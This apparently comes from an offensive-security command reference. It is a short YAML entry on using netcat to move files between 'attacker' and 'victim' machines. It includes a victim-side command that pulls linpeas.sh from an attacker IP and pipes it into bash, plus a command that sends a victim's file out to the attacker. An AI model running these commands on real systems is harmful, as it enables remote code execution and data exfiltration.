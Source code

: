 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    Copy from attacker to victim:
    ```nc -lvnp 9001 < linpeas.sh (attacker)``` & ```nc 10.10.21.14 9001 | bash (victim)```

    Copy from victim to attacker:
    ```nc 10.10.21.14 9001 < file.txt (victim)``` & ```nc -lvnp 9001 > file.txt (attacker)```

command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

